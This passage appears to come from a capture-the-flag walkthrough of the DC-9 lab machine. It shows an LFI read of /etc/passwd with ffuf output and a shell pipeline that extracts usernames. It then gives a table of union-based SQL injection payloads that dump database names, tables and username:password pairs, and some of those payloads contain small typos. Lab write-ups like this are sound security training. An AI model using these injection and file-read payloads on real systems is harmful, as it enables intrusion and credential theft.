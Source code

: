 ``` 
________________________________________________

file                    [Status: 200, Size: 3748, Words: 85, Lines: 95]
:: Progress: [63087/63087] :: Job [1/1] :: 1309 req/sec :: Duration: [0:01:09] :: Errors: 0 ::
```

It worked! I copy the result to my terminal to have a better look at it. I save the file as etc.passwd. After sorting it out, I see `MySQL` and plenty of user accounts. I then create a file called `username` and save the content there. 

```
cat etc.passwd | tr " " "\n" | grep bash | tr ":/" " " | awk '{print $3}' | grep -v 0 > username
```

Earlier, we see MySQL in the /etc/passwd. We do know that we can search for staff details. After testing it some trial and error in Burp > Repeater, the search bar is vulnerable to Union SQLi. Using the payload UNION SELECT 1,2,3,4,5,6 will return us the valid output. Anything more or less than 6 will not return us anything.

{{<image src="/DC-9/union_sqli.png" position="center" style="border-radius: 8px;">}}

Moving forward, we can get all the important information we need.

- MySQL Version
- Database
- Table
- Columns
- Data (Username & Password)

{{<image src="/DC-9/sql_version.png" position="center">}}

{{<image src="/DC-9/sql_table.png" position="center">}}

{{<image src="/DC-9/sql_columns.png" position="center">}}

{{<image src="/DC-9/userpass_staffusers.png" position="center">}}

{{<image src="/DC-9/userpass_usersuser.png" position="center">}}

SQL injection UNION attacks that I used: 

| Payload | Description |
|---------|-------------|
| Mary' UNION SELECT 1,2,3,4,5,6-\- -| Determine the number of columns |
| Mary' UNION SELECT schema_name,@@version,3,4,5,6 FROM information_schema.schemata-\- -| Get Database and SQL Version |
| Mary' UNION SELECT table_schema,table_name,3,4,5,6 FROM information_schema.columns WHERE table_schema != 'information_schema'-\- -| Get Table name |
| Mary' UNION SELECT table_schema,table_name,3,4,5,6 FROM information_schema.columns WHERE table_schema != 'information_schema'-\- -| Get Columns name |
| Mary' UNION SELECT group_concat(Username,":",Password)2,3,4,5,6 FROM Staff.Users-\- -| Get Username and Password from Staff.Users |
| Mary' UNION SELECT group_concat(username,":",password)2,3,4,5,6 FROM users.UserDetails-\- -| Get Username and Password from Users.UserDetails |

Since i have a list of username during the LFI, i will only take the password and store it into a text file called `password`
